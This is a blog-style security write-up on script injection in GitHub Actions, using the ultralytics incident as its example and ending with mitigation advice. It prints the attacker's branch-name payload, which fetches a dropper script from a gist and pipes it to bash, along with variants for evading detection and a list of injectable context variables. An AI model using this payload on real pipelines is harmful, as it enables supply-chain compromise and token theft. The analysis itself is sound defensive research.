 ===
- date: 2024-12-05
- name: Malware Insights: GitHub Actions Script Injection
- tags: malware, tholian-conquer-type
- type: software, research
- crux: How to infiltrate GitHub runners because they don't sanitize arbitrary string inputs.
===


It's time to talk about how DevOps and CI/CD pipelines work in general, and how the lack of
sanitization of arbitrary input data leads to a false sense of security practices.


## Attack Vector

GitHub Actions allow to execute code inside an isolated sandbox, which means that they also
allow the execution of arbitrary code (which is kind of the point behind it). The particular
problem, however, is that GitHub / GitLab / etc runners also allow to use variables in their
templates, which will be printed out to the shell that's executing an `echo $variable` command.

In each line of the GitHub Actions Log there is a specific `echo $variable` command which prints
out the set `inputs` that are defined for each workflow. This also influences the UI as the log
output is parsed and then used to update the UI with the state update inside the log. This might
also lead to a potential XSS vector in the GitHub frontend, but has been unused/unproven at this
time.

The first incident of this new type of attack vector has been discovered as [GHSA-7x29-qqmq-v6qc](https://github.com/advisories/GHSA-7x29-qqmq-v6qc),
but I'm trying to describe the problem here and how potentially more context variables can be used
for this type of infiltration.

```bash
# Executed inside the GitHub runner
echo "github.event_name: pull_request_target"
# ...
echo "first_input_name: ${first_input_name}"
echo "second_input_name: ${first_input_name}"
# ...
```


## Arbitrary Unsanitized Inputs

This means, however, that every environment variable that's used inside an `action.yml` file can
be potentially abused if the source for it contains arbitrary data that's not filtered to contain
no special characters and no escape characters.

In the recent example that happened to the `ultralytics/ultralytics` repository, the attacker used
the following name as the pull request's branch name to execute their malware dropper. In order to
avoid potential web app firewalls that block network traffic, the attacker alread avoided using an
`https://` prefix, and hosted the malicious script code on a `gist` on github to avoid detection.

The pull request's branch name:

`openimbot:$({curl,-sSfL,raw.githubusercontent.com/username/hash_of_gist/dropper.sh}${IFS}|${IFS}bash)`

In order to reproduce it you can also use different escaping techniques that avoid a crappy detection
mechanism, similar to SQL injection. For example, `";;$(curl,...)` or a backslack or backtick using
execution command might also work, as well as an invoked execution via a third-party command like
`perl`, `node` or another REPL that supports execution via a CLI parameter.

The above branch name led to the pull request action workflow being executed automatically, without
any possibility to cancel it by concept, and lead to installing the malware via the executed `dropper.sh`
file that also had access to all environment variables including the `GITHUB_TOKEN` and other lateral
movement possibilities.

The dropper then patched the generated zip/wheel files of the published python package later, and
inserted the crypto miner in those packages, but that's an unimportant detail in this context.

The problem is really that all environment variables and all variable inputs in GitHub Actions
templates are vulnerable to this, meaning that they need extra sanitization/validation steps or
to be avoided at all cost.

Potentially vulnerable pull request action context variables at this point:

- `github.ref`
- `github.base_ref`
- `github.head_ref`
- `github.workflow`
- `github.event.pull_request.title`
- `github.event.pull_request.body`
- `github.event.pull_request.base.label`
- `github.event.pull_request.base.ref`
- `github.event.pull_request.base.full_name`
- `github.event.pull_request.base.name`
- `github.event.pull_request.base.owner.login`
- `github.event.pull_request.head.label`
- `github.event.pull_request.head.ref`
- `github.event.pull_request.head.full_name`
- `github.event.pull_request.head.name`
- `github.event.pull_request.head.owner.login`

As you can see, a lot of meta data is passed down in the `JSON` data that comes from arbitrary sources.
You should therefore be really cautious about what kind of data you include in your `action.yml` file.


## Mitigation

The obvious mitigation is to check for unsanitized input variables and to not allow them to be used in
your repository's `action.yml` file. There are ongoing efforts at this time to build validators that not
only validate the schema of an `action.yml` file, but also check against whether or not this could be
potentially executed via template injection.

The tool that I would recommend even though it's still in development is [Zizmor](https://github.com/woodruffw/zizmor)
as the author of it is very security conscious and uses a defensive programming style.

There might be some other tools available that are more stable but as far as I know these only validate
against the schema, not against vulnerabilities or weaknesses.


## Security Checklist

As this type of problem is a regular occuring one for future changes of the `action.yml` file, I would
like to point out that this sort of issue needs regular ongoing audits and checks to prevent an infiltration
of the build pipeline environment.

This is a supply chain attack with lateral movement capabilities, and should be treated with the highest
risk assessment as it's able to influence pretty much everything end-to-end in regards to how your software
is compiled, built, updated, published etc.

It might be fixable with a `pre-receive` hook that's running on the server-side in case your company uses
a self-hosted GitHub/GitLab/Gitea/Gogs instance, but as of today there's no software available to check
these sorts of issues before the potentially vulnerable branch name, user name, user email etc. lands on
the server.

Also keep in mind that as refs and blobs are hashed, this might make it harder for your Forensics team to
check for this sort of attack vector, because evidence trails can be easily obfuscated with `git gc` and
similar means that remove or modify the `blob` filesystem behind git.

Everything that's already pushed and received by `git` in its `.git/objects/<ref>` folder is potentially
affected by mentioned issues, as the attacker can just run a shell command to include those files directly
(even using git syntax), so that's something to be aware of, too.

On every change of your GitHub/GitLab Actions:

- Don't run a Pull Request bot for untrusted members
- Specifically allowlist trusted members for Pull Request workflow runs
- Use only the minimum amount of information you need for the actions workflow to complete
- Check every environment variable for arbitrary sources
- Check every GitHub/GitLab actions context variable for arbitrary sources


## Personal Notes

As this attack vector is quite new and didn't happen a lot in the past as a supply chain attack, there's
potentially a lot more to investigate.

As most alternatives to GitHub also include some form of CI/CD or actions automation, these softwares
might also be affected. This means that there needs to be an audit for GitLab, Gitea, Gogs, and other
alternatives to ensure that this type of arbitrary data input isn't executed inside a shell environment.

My recommendation would be to not execute a runner inside a shell environment, at all, but that's where
the DevOps crowd would not agree with me as they sure do love their shell magic.

If I would have the time, I probably would implement a runner based on [yaegi](https://github.com/traefik/yaegi)
or another typesafe interpreter instead of executing commands in a shell. But that is a huge amount of
work to do end-to-end, and might therefore not be feasible for most companies alone.


## Pentesting Advice

As the described technique above might not work in the future, I'd recommend to try out other shell
escape techniques that either use REPLs to execute inlined scripts or that use different types of
encodings to escape restricted shell environments.

A good start is to read the following chapters of these books:

- PayloadsAllTheThings, Chapter [Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Command%20Injection/README.md)
- 0xffsec Handbook, Chapter [Restricted Shells](https://0xffsec.com/handbook/shells/restricted-shells/)

